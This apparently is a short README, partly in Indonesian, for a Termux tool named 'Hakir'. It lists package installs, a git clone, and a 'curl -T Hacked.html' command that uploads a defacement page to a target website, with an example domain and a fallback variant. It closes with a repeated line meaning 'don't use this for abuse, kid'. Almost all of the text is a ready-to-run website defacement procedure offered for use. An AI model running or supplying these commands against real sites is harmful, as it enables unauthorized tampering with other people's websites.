 
$ pkg update


$ pkg upgrade


$ pkg install curl


$ pkg install libcurl


$ pkg install git


$ git clone https://github.com/Kentcoyj/Hakir


$ cd Hakir


$ curl -T Hacked.html Target(example: https://sus.co.za/)




# Kalau saat Kalian curl -T Tidak Berhasil Pakai Cara Dibawah

$ curl -T /Hakir/Hacked.html target




# JANGAN DIPAKE BUAT ABUSE DEK
# JANGAN DIPAKE BUAT ABUSE DEK
# JANGAN DIPAKE BUAT ABUSE DEK
# JANGAN DIPAKE BUAT ABUSE DEK
# JANGAN DIPAKE BUAT ABUSE DEK
# JANGAN DIPAKE BUAT ABUSE DEK
# JANGAN DIPAKE BUAT ABUSE DEK
# JANGAN DIPAKE BUAT ABUSE DEK
# JANGAN DIPAKE BUAT ABUSE DEK
# JANGAN DIPAKE BUAT ABUSE DEK

